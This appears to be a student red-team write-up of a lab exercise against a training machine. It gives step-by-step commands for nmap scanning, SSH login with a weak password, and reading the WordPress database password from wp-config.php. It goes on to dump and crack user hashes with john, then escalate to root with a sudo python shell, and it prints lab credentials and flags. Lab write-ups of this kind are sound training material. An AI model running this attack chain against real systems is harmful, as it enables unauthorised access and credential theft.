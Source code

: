 Table of Contents
* Exposed Services
* Critical Vulnerabilities
* Exploitation

**Exposed Services**

Nmap scan results for each machine reveal the below services and OS details:

    nmap -sn 192.168.1.0/24 to find Target 1 IP machine
          
    nmap -sV 192.168.1.110 to check open ports and services
  # 
![alt text](https://github.com/Edgar-Argueta/Blue-Team-Red-Team-and-Network-Analysis/blob/620da15c27c4620f747ffd6da3582730fce3bf5d/Red%20Team%20Screenshotss/Picture2.png)
![alt text](https://github.com/Edgar-Argueta/Blue-Team-Red-Team-and-Network-Analysis/blob/620da15c27c4620f747ffd6da3582730fce3bf5d/Red%20Team%20Screenshotss/Picture1.png)

**Critical Vulnerabilities**

This scan identifies the services below as potential points of entry:
Target 1
Port 22/TCP Open SSH
Port 80/TCP Open HTTP
Port 111/TCP Open RPCbind
Port 139/TCP Open Netbios-SSN
Port 445/TCP Open Netbios-SSN

The following vulnerabilities were identified on Target 1:

* User Enumeration, Severity: Medium, CVE-2017-5487
* Weak User Password
* Mismanaged User privileges
* Unsalted Hash Password

**Exploitation**

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

flag1.txt: {b9bbcb33e11b80be759c4e844862482d}
The exploit used to find flag one was file traversal.
1. ssh michael@192.168.1.110
2. password michael
3. cd /
4. cd var/www/html
5. ls
6. nano service.html 
7. Within service.html: Ctrl-w flag or cat service.html | grep flag
![alt text](https://github.com/Edgar-Argueta/Blue-Team-Red-Team-and-Network-Analysis/blob/620da15c27c4620f747ffd6da3582730fce3bf5d/Red%20Team%20Screenshotss/Picture3.png)


flag2.txt: {fc3fd58dcdad9ab23faca6e9a36e581c}
File traversal was used again to find flag2.
1. ssh michael@192.168.1.110
2. password michael
3. cd /
4. cd var/www
5. ls
6. cat flag2.txt

![alt text](https://github.com/Edgar-Argueta/Blue-Team-Red-Team-and-Network-Analysis/blob/620da15c27c4620f747ffd6da3582730fce3bf5d/Red%20Team%20Screenshotss/Picture4.png)

Finding the MySQL database password.
cat /var/www/html/wordpress/wp-config.php

![alt text](https://github.com/Edgar-Argueta/Blue-Team-Red-Team-and-Network-Analysis/blob/620da15c27c4620f747ffd6da3582730fce3bf5d/Red%20Team%20Screenshotss/Picture5.jpg)


Use the credentials to log into MySQL and dump WordPress user password hashes.
1. mysql -u root -p
2. R@v3nSecurity
3. show databases;
4. use wordpress;
5. show tables;
6. SELECT * FROM wp_users;

![alt text](https://github.com/Edgar-Argueta/Blue-Team-Red-Team-and-Network-Analysis/blob/620da15c27c4620f747ffd6da3582730fce3bf5d/Red%20Team%20Screenshotss/Picture6.jpg)

SELECT * FROM wp_user INTO OUTFILE ‘/home/michael/wp_hashes.txt’;
Dumps table to a .txt file./home

![alt text](https://github.com/Edgar-Argueta/Blue-Team-Red-Team-and-Network-Analysis/blob/620da15c27c4620f747ffd6da3582730fce3bf5d/Red%20Team%20Screenshotss/Picture7.jpg)

Nano the file and change it to a format john reads.	
Change user1 and 2 to Michael and steven.

![alt text](https://github.com/Edgar-Argueta/Blue-Team-Red-Team-and-Network-Analysis/blob/620da15c27c4620f747ffd6da3582730fce3bf5d/Red%20Team%20Screenshotss/Picture8.jpg)

SELECT * FROM wp_posts
Reading the other tables to get flags 3 and 4

![alt text](https://github.com/Edgar-Argueta/Blue-Team-Red-Team-and-Network-Analysis/blob/6d57ec55f14e5eda98421cfee4d2b89b32c6c16d/Red%20Team%20Screenshotss/Flag3_Flag4.png)

Crack password hashes with john.

    john --wordlist=/usr/share/wordlists/rockyou.txt wp-hashes.txt 
    john --show hashed_passwords.txt
![alt text](https://github.com/Edgar-Argueta/Blue-Team-Red-Team-and-Network-Analysis/blob/6d57ec55f14e5eda98421cfee4d2b89b32c6c16d/Red%20Team%20Screenshotss/Picture10.jpg)

Secure a user shell as the user whose password you cracked.
* ssh steven@192.168.1.110
* pink84

![alt text](https://github.com/Edgar-Argueta/Blue-Team-Red-Team-and-Network-Analysis/blob/6d57ec55f14e5eda98421cfee4d2b89b32c6c16d/Red%20Team%20Screenshotss/Picture11.jpg)

Escalate to root. One flag can be discovered after this step.
* sudo -l
* sudo python -c 'import pty;pty.spawn("/bin/bash")'
![alt text](https://github.com/Edgar-Argueta/Blue-Team-Red-Team-and-Network-Analysis/blob/6d57ec55f14e5eda98421cfee4d2b89b32c6c16d/Red%20Team%20Screenshotss/Picture12.jpg)

* locate flag

![alt text](https://github.com/Edgar-Argueta/Blue-Team-Red-Team-and-Network-Analysis/blob/6d57ec55f14e5eda98421cfee4d2b89b32c6c16d/Red%20Team%20Screenshotss/Picture13.jpg)

* cat /root/flag4.txt

![alt text](https://github.com/Edgar-Argueta/Blue-Team-Red-Team-and-Network-Analysis/blob/6d57ec55f14e5eda98421cfee4d2b89b32c6c16d/Red%20Team%20Screenshotss/Picture14.jpg)

All flags found

![alt text](https://github.com/Edgar-Argueta/Blue-Team-Red-Team-and-Network-Analysis/blob/6d57ec55f14e5eda98421cfee4d2b89b32c6c16d/Red%20Team%20Screenshotss/Picture16.jpg)



